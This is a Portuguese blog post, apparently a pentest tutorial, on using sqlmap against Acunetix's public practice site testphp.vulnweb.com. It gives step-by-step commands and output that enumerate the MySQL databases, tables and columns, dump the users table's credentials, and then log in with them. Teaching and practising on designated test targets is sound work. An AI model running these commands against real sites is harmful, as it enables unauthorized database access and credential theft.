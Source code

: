 ```yaml
---
layout: post
title: "Analisando vulnerabilidades com sqlmap"
date: 2016-04-19 23:17:27
image:
   url: img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/syringe-code2.jpg
description: 'Vamos analisar uma pequena falha encontrada em um banco de dado Mysql, com o sqlmap'
tags:
- Dicas
categories:
- Segurança
---
```


## SQL Injection

Hoje vou falar um pouco sobre uma ótima ferramenta para fazer `pentest`, que é muito utilizada para fazer `SQL injection`, vou falar sobre o `sqlmap` que tem como foco buscar vulnerabilidades no `SQLi` que podem trazer uma grande dor de cabeça, vulnerabilidades que geralmente são causadas por falhas no desenvolvimento, e as vezes até por um funcionário descontente ou desmotivado.

### Mas o que é sqlmap

O `sqlmap` é uma ferramenta desenvolvida em `python` de código aberto, que tem como foco analisar vulnerabilidades no sql de websites ou serviços, possibilitando que você faça diversas coisas, devido à variedade de opções que ele te oferece, desde informações do formulário até tabelas de todo o banco de dados, muito popular para extrair nome de usuários e senhas.

O que vamos abordar aqui é tenta encontrar alguma vulnerabilidade no `SQL`, e ver se conseguimos ganhar acesso, para fazer nosso teste vou usar o site da Acunetix [http://testphp.vulnweb.com/](http://testphp.vulnweb.com/), que foi disponibilizado justamente para fazer pentest.

### Instalando o sqlmap

Sua instalação não é muito difícil, é como quaisquer outras aplicações que não vem como padrão em sua distribuição. Acesse o site oficial [sqlmap.org](http://sqlmap.org/), faça download de sua referência seja `.zip` ou `tar.gz`. Extraia os arquivos para uma pasta, acesse a pasta e execute `./sqlmap.py` ou `python sqlmap.py`

### Help

{% highlight bash %}
./sqlmap.py --help | less
{% endhighlight %}

Sempre bom conhecer a ferramenta antes de utilizarmos ela, tente ler algumas das muitas opções que o `sqlmap` oferece, assim você pode juntar algumas opções que podem se torna úteis.

### Analisando possíveis vulnerabilidades

Coloque um som legal aí, e vamos lá. Primeiro vamos conhecer o nosso site alvo, então acesse [http://testphp.vulnweb.com/](http://testphp.vulnweb.com/). É possível ver na imagem abaixo que temos uma área de login, o que geralmente acontece nessas áreas, se você colocar aspas simples ('') no login e na senha, já indica uma vulnerabilidade, mas cheguei a fazer esse teste e não tive resultado nenhum, então quer dizer que não temos vulnerabilidade nessa página de login, ou que eu não consegui encontrar. :(

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot04.png)

Mas não podemos criar pânico, vamos dá uma olhada melhor, ali do lado esquerdo temos um menu na vertical onde é possível acessar uma página de categorias. Ótimo quer dizer que temos um banco de dados ali também.

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot02.png)

Essas categorias podem ser exploradas, então vou selecionar a segunda categoria e vamos ver o que ela tem para nos oferecer, porque é onde está o conteúdo relacionado ao banco de dados.

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot03.png)

Essa categoria que selecionei tem apenas um resultado relacionado a ela, mas não tem problema o nosso foco aqui é encontrar vulnerabilidades e não comprar. Agora vamos analisar o `URL` da página.

{% highlight bash %}
http://testphp.vulnweb.com/listproducts.php?cat=2
{% endhighlight %}

Legal, vamos pôr um ponto de interrogação `?` ali no final da nossa `URL`, quem sabe temos algum erro no sql.

{% highlight bash %}
http://testphp.vulnweb.com/listproducts.php?cat=2?
{% endhighlight %}

Muito bom encontramos o que precisávamos, um pequeno erro no sql, e já descobrimos qual é o sql que ele utiliza o `Mysql`.

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot05.png)

Já encontramos a vulnerabilidade que precisávamos então vamos para o `sqlmap`, que será uma peça fundamental, onde iremos tentar puxar mais informações desse banco de dados.

{% highlight bash %}
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=2 --dbms=mysql --dbs
{% endhighlight %}

O `-u` indica que estamos usando uma url já o `--dbms=mysql` indica para que seja feita busca no mysql, que é o banco de dados utilizado pelo site, assim a busca fica muito mais rápida, se não utilizarmos essa opção ele vai demorar um pouco mais, porque vai tentar com todos os bancos de dados e por fim o `-dbs` está pedindo para que liste os bancos de dados.

Após executar, o resultado foi:

{% highlight bash %}
[00:19:41] [INFO] testing MySQL
[00:19:41] [INFO] confirming MySQL
[00:19:41] [INFO] the back-end DBMS is MySQL
web application technology: Nginx, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.0
[00:19:41] [INFO] fetching database names
available databases [2]:
[*] acuart
[*] information_schema

[00:19:41] [INFO] fetched data logged to text files under '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com'
{% endhighlight %}

Até aqui tranquilo, acabamos de descobrir mais um pouco, agora sabemos que ele tem um banco de dados chamado `acuart` e o outro `information_schema`. Vamos analisar esse `acuart`

{% highlight bash %}
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=2 --dbms=mysql --dbs -D acuart --tables
{% endhighlight %}

A opção `-D` mostra qual o banco de dados que vamos analisar que seria o `acuart` que é a nossa segunda opção, já o `--tables`, vai listar todas as tabelas existentes no banco de dados que acabamos de informar.

Nosso resultado foi:

{% highlight bash %}
[00:28:26] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+

[00:28:26] [INFO] fetched data logged to text files under '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com'
{% endhighlight %}

Olha ali temos uma tabela chamada `users`, legal que é o nosso foco aqui, descobrir usuário e senha então vamos pegar mais informações desse banco de dados da tabela `users`

{% highlight bash %}
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=2 --dbms=mysql --dbs -D acuart -T users --columns
{% endhighlight %}

O `-T`, estou informando que desejo informações da tabela já o `users` diz qual é a nossa tabela, e o `--columns`, informa que desejo as colunas dessa tabela.

{% highlight bash %}
[00:33:01] [INFO] fetching columns for table 'users' in database 'acuart'
Database: acuart
Table: users
[8 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| name    | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+

[00:33:01] [INFO] fetched data logged to text files under '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com'
{% endhighlight %}

Estamos quase chegando na nossa reta final, já temos ali as colunas `uname` e `pass`, vamos extrair ela e ver o que temos.

{% highlight bash %}
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=2 --dbms=mysql --dbs -D acuart -T users -C uname,pass,name,email --dump
{% endhighlight %}

No `-C` estou informando que desejo as colunas já `uname,pass,name,email`, informando quais são essas colunas que eu desejo, e o `--dump`, extrai as informações dessas colunas.

Resultado:

{% highlight bash %}
[00:41:04] [INFO] fetching entries of column(s) 'email, name, pass, uname' for table 'users' in database 'acuart'
[00:41:04] [INFO] analyzing table dump for possible password hashes
Database: acuart
Table: users
[1 entry]
+-------+------+------------+-----------------+
| uname | pass | name       | email           |
+-------+------+------------+-----------------+
| test  | test | John Smith | email@email.com |
+-------+------+------------+-----------------+

[00:41:04] [INFO] table 'acuart.users' dumped to CSV file '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com/dump/acuart/users.csv'
[00:41:04] [INFO] fetched data logged to text files under '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com
{% endhighlight %}

Bom, se você chegou até aqui parabéns, está na hora de ver se essa parada aqui é de verdade mesmo e ter certeza que não estou inventando nada, rs. Vamos para o site naquela página de login, tentar usar o a senha `test` e o login `teste`, e ver se o nome e e-mail bate com as informações.

Página de login:

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot06.png)


Página de acesso:

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot07.png)

### Conclusão

Como foi possível ver, esse realmente era o usuário e senha para acessar a página, e os dados bateram com as informações que obtivemos na hora de pegar as informações das colunas. Agora é só verificar outras vulnerabilidades possíveis no site da Acunetix, e explorar elas, sempre tem um novo jeito.

### Referências

[sqlinjection](http://www.sqlinjection.net/)

[sqlmap.org/](http://sqlmap.org/)

-----
Viu algum erro ou gostaria de adicionar alguma sugestão a essa matéria? Comente.
